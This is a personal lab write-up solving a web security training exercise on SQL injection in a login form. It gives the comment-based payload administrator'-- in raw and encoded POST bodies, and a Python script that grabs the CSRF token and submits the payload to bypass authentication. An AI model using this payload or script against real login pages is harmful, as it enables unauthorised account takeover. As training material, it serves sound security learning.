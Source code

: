 This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

---

**Goal:** Exploit a login function vulnerability, and login as the administrator account. 

**Analysis:** 

```sql
SELECT firstname FROM users where username='admin' and password='admin'

SELECT firstname FROM users where username=''' and password='admin'

SELECT firstname FROM users where username='administrator'--' and password='admin'

SELECT firstname FROM users where username='admin'
```

**Script notes:**

Request:
```http
POST /login HTTP/2
```

Login data:
```php
csrf=eENuXbzjQgSFHOZSPbtr8Kn9qbDn2NWh&username=administrator'--&password=test
```

![[Pasted image 20240830124349.png]]

Payload:

Username: administrator'--

```php
csrf=SKim6nGWh2HKPtXO0OTaBqgv0gsa5JS8&username=administrator%27--&password=test
```

Response example:

```html
                   <section>
                        <form class=login-form method=POST action="/login">
                            <input required type="hidden" name="csrf" value="fDV4GyGTZRR4v5LRT97PPGsiHaic3wZc">
                            <label>Username</label>
                            <input required type=username name="username" autofocus>
                            <label>Password</label>
                            <input required type=password name="password">
                            <button class=button type=submit> Log in 
```

```python
#!/usr/bin/python3

import requests
import sys
import urllib3
from bs4 import BeautifulSoup
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def get_csrf_token(s, url):
    r = s.get(url, verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find("input")['value']
    return csrf


def exploit_sqli(s, url, payload):
    csrf = get_csrf_token(s, url)
    data = {"csrf": csrf,
            "username": payload,
            "password": "randomtext"}

    r = s.post(url, data=data, verify=False, proxies=proxies)
    res = r.text
    if "Log out" in res:
        return True
    else:
        return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        sqli_payload = sys.argv[2].strip()
    except IndexError:
        print('[-] Usage: %s <url> <sql-payload>' % sys.argv[0])
        print('[-] Example: %s www.example.com "1=1"' % sys.argv[0])

    s = requests.Session()

    if exploit_sqli(s, url, sqli_payload):
        print('[+] SQL injection successful! We have logged in as the administrator user.')
    else:
        print('[-] SQL injection unsuccessful.')
```

Usage:
```php
./lab2.py https://0ac600d803bd890a80189e2f00b30061.web-security-academy.net/login "administrator'--"
```

---

**Completed:** _14:10 2024-08-30_

